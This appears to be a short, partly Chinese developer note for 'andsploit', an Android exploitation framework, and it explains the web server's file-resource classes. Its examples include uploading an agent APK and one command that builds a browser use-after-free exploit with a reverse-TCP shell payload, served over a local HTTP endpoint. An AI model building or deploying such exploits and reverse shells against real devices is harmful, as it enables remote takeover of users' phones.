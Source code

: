 andsploit development
===================

##debug:
`
from andsploit import android
if android.debug:
	do something
`

##web接口:
类路径:
`src/andsploit/server/files.py	`	
文件类型:	
使用"w","a",NONE 区分

###1.FileResource
既在根目录下的文件

###2.InMemoryResource
直接将文件放于内存中

例子:		
`
self.upload(arguments, "/agent.apk", self.build_agent(arguments), magic="A", mimetype="application/vnd.android.package-archive")
`

###3.InMemoryMultipartResource
较大的文件,分多块,符合http的boundary拆分


例子:		
`
self.build_multipart({ ".*Android.*2\.1.*AppleWebKit.*" : "<html>123</html>" }, "gc0p4Jq0M2Yt08jU534c0p")
`

使用gc0p4Jq0M2Yt08jU534c0p为http boundary

参数1:匹配规则	
例子:		
`
andsploit exploit build exploit.remote.browser.useafterfree --payload weasel.reverse_tcp.armeabi
curl --header "User-Agent: Mozilla/5.0 (Linux; U; Android 3.2.1; en-gb; HTC Flyer P510e Build/HTK75C) AppleWebKit/534.13 (KHTML, like Gecko) Version/4.0 Safari/534.13" --header "true; boundary=gc0p4Jq0M2Yt08jU534c0p" http://127.0.0.1:31415/main4.html
`




 